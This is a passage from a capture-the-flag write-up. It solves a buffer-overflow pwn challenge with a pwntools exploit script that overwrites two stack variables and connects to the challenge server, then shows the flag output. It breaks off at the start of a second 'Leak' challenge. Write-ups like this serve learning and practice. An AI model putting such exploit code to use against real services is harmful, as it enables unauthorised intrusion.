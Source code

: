 We can then construct a payload which looks like the following
```python
payload = b"A" * 72        # Offset to num2
payload += p32(0xdeadbeef) # Num2
payload += p32(0xcafebabe) # Num1
```
{: .nolineno }

The full exploit script is
```python
from pwn import *

io = remote("20.251.64.64", 1031)
io.recvuntil(b"number:")
io.sendline(b"1")
io.recvuntil(b"number:")
io.sendline(b"2")
io.recvuntil(b"string:")

payload = b"A"*72
payload += p32(0xdeadbeef)
payload += p32(0xcafebabe)

io.sendline(payload)
io.interactive()
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/wackattack/pwn/matches$ python3 solve.py
[+] Opening connection to 20.251.64.64 on port 1031: Done
[*] Switching to interactive mode
Congratulations! Here is your flag:
wack{sc4anf_is_gets?}
```


## Leak
![Challenge](leak_chall.png)

```console
loevland@hp-envy:~/ctf/wackattack/pwn/leak$ ./leak
Hope you're having a great day!
Please input you favorite number
13
The numbers are:
1: 0xcafebabe
2: 0xdeadbeef
3: 0xc0ffee
4: 0xd
5: 0x55b015f11d78

Which of these numbers was your favorite? (1-5)
5
What? You really should remember your FAVORITE number!!
```
